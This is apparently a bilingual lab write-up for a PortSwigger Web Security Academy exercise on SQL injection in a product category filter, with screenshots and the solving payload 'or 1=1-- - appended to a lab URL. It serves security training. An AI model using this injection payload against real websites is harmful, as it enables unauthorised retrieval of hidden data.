 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

- [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## 

Descripción:

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

````sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
````

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

---

Explicación:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0b35f1ca-3c73-4837-a0f8-b5be87e084bf)

Por ejemplo en una base de datos el query se vería similar a esto: 

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/c4e14787-7ed5-4ce9-b060-427c3c66f574)

En la vida real se vería más similar a esto, en lugar de usar en `*`

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/837008ac-50fd-452b-86ff-5e0881daed0d)


## Solución:

1. Abrir laboratorio

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a56c4773-50c8-41b7-82b7-94631079ad1c)

2. Si filtro puedo empezar a ver el query desde la URL

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/4349813d-9f17-4542-9695-ed2d23113a01)

3. Query que usé

````sql
'or 1=1-- -
````
````http
https://0adf002604af55028177ed87004400b4.web-security-academy.net/filter?category=Lifestyle'or 1=1-- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/22e3492e-a7c7-4573-a966-73830aa681fe)



